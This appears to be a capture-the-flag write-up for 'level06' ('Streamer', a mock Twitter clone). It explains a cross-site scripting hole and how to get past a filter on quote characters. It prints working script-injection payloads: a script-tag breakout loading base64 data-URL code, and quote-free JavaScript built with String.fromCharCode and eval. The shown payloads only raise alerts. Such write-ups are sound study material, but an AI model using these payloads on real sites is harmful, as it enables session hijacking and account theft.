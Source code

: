 Level 6 notes (level06)
=======================

This level involves "Streamer", a cheap and quick not-quite-Twitter.

What's the vulnerability?
-------------------------

You can inject JavaScript into the Streams you publish.

What's the complication?
------------------------

' and " are blacklisted, and make up part of the user you're trying to hack's password.
There are two ways of getting around this: replace ' and " with other characters, or base64 encode everything (I opted for this).

This also means that either you use data URLs (base64 again!):

```html
</script><script src=data:application/javascript;base64,YWxlcnQoIllvdSd2ZSBiZWVuIFBXTkVEISIpOw==></script><script>//
```

Or you construct JavaScript with no quotes, like so:

```html
</script>
var stringWithoutQuotes = String.fromCharCode(72, 101, 108, 108, 111, 33);
// do stuff with stringWithoutQuotes
<script>//
```

Alternatively, you can use this method and eval your entire script:

```html
</script>
eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 80, 87, 78, 69, 68, 33, 34, 41, 59));
<script>//
```

Websites like http://jdstiles.com/java/cct.html are helpful in encoding your JavaScript.